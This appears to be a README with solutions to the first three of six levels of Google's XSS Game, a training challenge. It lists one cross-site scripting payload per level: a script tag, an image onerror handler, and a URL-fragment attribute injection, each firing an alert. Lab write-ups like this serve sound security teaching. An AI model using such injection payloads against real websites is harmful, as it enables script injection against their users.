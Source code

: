 # XSS Game Google
Solution to the six XSS issues proposed by Google

## [1/6]  Level 1: Hello, world of XSS
_Solution_: put `<script>alert('xss');</script>` into form field

## [2/6]  Level 2: Persistence is key
_Solution_: share status `<img src="#" onerror="javascript:alert(1)"/>`

## [3/6]  Level 3: That sinking feeling...
_Solution_: add to url the code: `#1' onerror='alert("xss")'`